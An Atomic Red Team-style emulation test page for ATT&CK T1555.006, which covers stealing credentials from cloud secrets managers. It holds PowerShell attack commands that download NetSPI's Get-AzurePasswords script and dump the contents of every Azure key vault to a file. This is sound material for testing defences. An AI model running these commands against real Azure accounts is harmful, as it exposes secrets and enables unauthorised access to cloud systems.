 # T1555.006 - Credentials from Password Stores: Cloud Secrets Management Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555/006)
<blockquote>

Adversaries may acquire credentials from cloud-native secret management solutions such as AWS Secrets Manager, GCP Secret Manager, Azure Key Vault, and Terraform Vault.  

Secrets managers support the secure centralized management of passwords, API keys, and other credential material. Where secrets managers are in use, cloud services can dynamically acquire credentials via API requests rather than accessing secrets insecurely stored in plain text files or environment variables.  

If an adversary is able to gain sufficient privileges in a cloud environment – for example, by obtaining the credentials of high-privileged [Cloud Accounts](https://attack.mitre.org/techniques/T1078/004) or compromising a service that has permission to retrieve secrets – they may be able to request secrets from the secrets manager. This can be accomplished via commands such as `get-secret-value` in AWS, `gcloud secrets describe` in GCP, and `az key vault secret show` in Azure.(Citation: Permiso Scattered Spider 2023)(Citation: Sysdig ScarletEel 2.0 2023)(Citation: AWS Secrets Manager)(Citation: Google Cloud Secrets)(Citation: Microsoft Azure Key Vault)

**Note:** this technique is distinct from [Cloud Instance Metadata API](https://attack.mitre.org/techniques/T1552/005) in that the credentials are being directly requested from the cloud secrets manager, rather than through the medium of the instance metadata API.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst](#atomic-test-1---azure---dump-all-azure-key-vaults-with-microburst)


<br/>

## Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst
Upon successful execution of this test, the names, locations, and contents of key vaults within an Azure account will be output to a file.
See - https://www.netspi.com/blog/technical/cloud-penetration-testing/a-beginners-guide-to-gathering-azure-passwords/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 1b83cddb-eaa7-45aa-98a5-85fb0a8807ea





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|
| output_file | File to dump results to | string | $env:temp&#92;T1528Test1.txt|
| subscription_id | Azure subscription id to search | string | |


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzureRmAccount -Credential $Credential
Get-AzurePasswords -subscription '#{subscription_id}' > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Get-AzurePasswords script must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/c771c665a2c71f9c5ba474869cd1c211ebee68fd/AzureRM/Get-AzurePasswords.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
```
##### Description: The Azure RM module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureRM -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureRM -Force -allowclobber
```
##### Description: The Azure module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name Azure -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name Azure -Force -allowclobber
```




<br/>
